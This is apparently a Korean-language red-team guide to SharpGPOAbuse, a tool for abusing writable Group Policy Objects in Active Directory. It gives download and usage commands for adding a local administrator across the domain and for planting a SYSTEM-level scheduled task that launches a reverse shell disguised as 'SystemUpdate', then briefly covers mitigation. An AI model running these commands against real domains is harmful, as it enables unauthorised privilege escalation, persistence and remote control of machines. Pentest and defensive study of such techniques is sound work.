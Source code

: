 

# SharpGPOAbuse 활용 가이드

`SharpGPOAbuse`는 Active Directory 환경에서 그룹 정책 개체(GPO)의 잘못된 설정을 악용하여 권한 상승 또는 지속성(Persistence)을 확보하는 데 사용되는 C# 도구입니다. GPO 편집 권한을 가진 공격자가 GPO를 수정하여, 해당 GPO가 적용되는 모든 컴퓨터에서 악성 코드를 높은 권한으로 실행할 수 있게 합니다.

---

### **1. 주요 기능**

`SharpGPOAbuse`는 GPO를 통해 다음과 같은 악의적인 작업을 수행할 수 있습니다.

-   **로컬 관리자 추가 (`--AddLocalAdmin`):** GPO가 적용되는 컴퓨터의 로컬 Administrators 그룹에 특정 사용자를 추가합니다.
-   **즉시 실행 작업 추가 (`--AddImmediateTask`):** GPO에 즉시 실행되는 예약 작업을 추가하여, 지정된 명령어를 `SYSTEM` 권한으로 실행합니다.
-   **시작 스크립트 수정 (`--AddStartupScript`):** 컴퓨터 시작 시 실행되는 스크립트를 GPO를 통해 수정합니다.

---

### **2. 다운로드 및 실행**

-   **[GitHub Releases 링크](https://github.com/FSecureLABS/SharpGPOAbuse/releases)**
-   `SharpGPOAbuse.exe`는 .NET Framework 기반의 실행 파일입니다. 타겟 시스템에 .NET Framework가 설치되어 있어야 합니다.

```bash(title="SharpGPOAbuse 다운로드")
wget https://github.com/FSecureLABS/SharpGPOAbuse/releases/download/1.0/SharpGPOAbuse.exe
```

---

### **3. 공격 시나리오**

#### **시나리오 A: 로컬 관리자 추가 (`--AddLocalAdmin`)**
-   **목표:** GPO가 적용되는 모든 컴퓨터에 특정 사용자를 로컬 관리자로 추가하여 측면 이동(Lateral Movement) 및 권한 상승 기회를 확보합니다.

```powershell(title="로컬 관리자 추가")
# --UserAccount: 로컬 관리자로 추가할 도메인 사용자 계정
# --GPOName: 공격 대상 GPO의 이름 (BloodHound 등에서 확인)
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <domain>\<user> --GPOName "<GPO_Name>"

./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount enterprise-security --GPOName "SECURITY-POL-VN"
```

#### **시나리오 B: 즉시 실행 작업 추가 (`--AddImmediateTask`)**
-   **목표:** GPO를 통해 악성 명령어를 `SYSTEM` 권한으로 즉시 실행하여 리버스 셸 등을 획득합니다.

```powershell(title="즉시 실행 작업 추가")
# --TaskName: 예약 작업의 이름
# --Command: 실행할 명령어 (예: 리버스 셸 페이로드)
./SharpGPOAbuse.exe --AddImmediateTask --TaskName "SystemUpdate" --Command "C:\Temp\revshell.exe" --GPOName "<GPO_Name>"
```

---

### **4. GPO 업데이트 트리거**

GPO 변경 사항은 클라이언트 컴퓨터에 즉시 적용되지 않고, 기본적으로 90~120분마다 업데이트됩니다. 만약 타겟 시스템에 이미 셸이 있다면, 다음 명령어로 GPO 업데이트를 강제하여 공격을 즉시 트리거할 수 있습니다.

```powershell(title="GPO 업데이트 강제 적용")
gpupdate /force
```

---

### **5. 방어 (Mitigation)**

-   **권한 최소화:** GPO 편집 권한은 도메인 관리자(Domain Admins)와 동일한 수준의 민감한 권한으로 취급해야 합니다. `Group Policy Creator Owners` 그룹의 멤버십을 엄격하게 관리하고, 불필요한 계정에 GPO 편집 권한을 부여하지 않습니다.
-   **정기적인 감사:** BloodHound나 PowerShell 스크립트를 사용하여 주기적으로 GPO 권한 설정을 감사하고, 비정상적인 GPO 변경을 모니터링합니다.


---
